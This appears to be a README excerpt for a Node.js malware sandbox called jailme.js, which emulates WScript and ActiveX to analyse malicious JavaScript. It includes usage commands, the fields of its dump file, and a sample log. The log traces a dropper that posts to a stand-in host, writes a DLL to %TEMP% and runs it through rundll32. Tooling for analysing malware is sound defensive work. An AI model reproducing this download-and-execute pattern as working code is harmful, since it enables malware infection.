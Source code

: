 Internet browser based malware you may test with

    node jailme.js -b IE11_W10 malware/example_browser.js

At the end of the analysis the complete sandbox context is dumped into a _'sandbox\_dump\_after.json'_ file.

You may want to examine following entries of _'sandbox\_dump\_after.json'_:

* _eval\_calls_ - array of all eval() calls arguments. Useful if eval() is used for deobfucation.
* _wscript\_saved\_files_ - content of all files that the malware attempted to drop. The actual files are saved into the output/ directory too.
* _wscript\_urls_ - all URLs that the malware intended to GET or POST.
* _wscript\_objects_ - WScript or ActiveX objects created.

_'sandbox\_dump\_after.json'_ uses [JSONPath](http://goessner.net/articles/JsonPath/), implemented by [JSON-js/cycle.js](https://github.com/douglascrockford/JSON-js), to save duplicated or cyclic references to a same object.

## Sample output ##


    bash@linux# node jailme.js malware/example.js
    11 Jan 00:06:24 - Malware sandbox ver. 0.2
    11 Jan 00:06:24 - ------------------------
    11 Jan 00:06:24 - Sandbox environment sequence: env/eval.js,env/wscript.js
    11 Jan 00:06:24 - Malware files: malware/example.js
    11 Jan 00:06:24 - Output file for sandbox dump: sandbox_dump_after.json
    11 Jan 00:06:24 - Output directory for generated files: output/
    11 Jan 00:06:24 - ==> Preparing Sandbox environment.
    11 Jan 00:06:24 -  => Executing: env/eval.js
    11 Jan 00:06:24 - Preparing sandbox to intercept eval() calls.
    11 Jan 00:06:24 -  => Executing: env/wscript.js
    11 Jan 00:06:24 - Preparing sandbox to emulate WScript environment.
    11 Jan 00:06:24 - ==> Executing malware file(s).
    11 Jan 00:06:24 -  => Executing: malware/example.js
    11 Jan 00:06:24 - ActiveXObject(WScript.Shell)
    11 Jan 00:06:24 - Created: WScript.Shell[1]
    11 Jan 00:06:24 - WScript.Shell[1].ExpandEnvironmentStrings(%TEMP%)
    11 Jan 00:06:24 - ActiveXObject(MSXML2.XMLHTTP)
    11 Jan 00:06:24 - Created: MSXML2.XMLHTTP[2]
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].open(POST,http://EXAMPLE.COM/redir.php,false)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].setRequestHeader(Content-Type, application/x-www-form-urlencoded)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2].send(iTlOlnxhMXnM=0.588860877091065&jndj=IT0601)
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2] Not sending data, if you want to interract with remote server, set --down=y
    11 Jan 00:06:24 - MSXML2.XMLHTTP[2] Calling onreadystatechange() with dummy data
    11 Jan 00:06:24 - ActiveXObject(ADODB.Stream)
    11 Jan 00:06:24 - Created: ADODB_Stream[3]
    11 Jan 00:06:24 - ADODB_Stream[3].Open()
    11 Jan 00:06:24 - ADODB_Stream[3].Write(str) - 10001 bytes
    11 Jan 00:06:24 - ADODB_Stream[3].SaveToFile(%TEMP%\57020551.dll, 2)
    11 Jan 00:06:24 - WScript.Shell[1].Exec(rundll32 %TEMP%\57020551.dll, DllRegisterServer)
    11 Jan 00:06:24 - ADODB_Stream[3].Close()
    11 Jan 00:08:42 - ==> Script execution finished, dumping sandbox environment to a file.
    11 Jan 00:08:42 - Saving: output/_TEMP__49629482.dll
    11 Jan 00:08:42 - Saving: output/_TEMP__38611354.pdf
    11 Jan 00:08:42 - Generated file saved
    11 Jan 00:08:42 - Generated file saved
    11 Jan 00:08:42 - The sandbox context has been  saved to: sandbox_dump_after.json
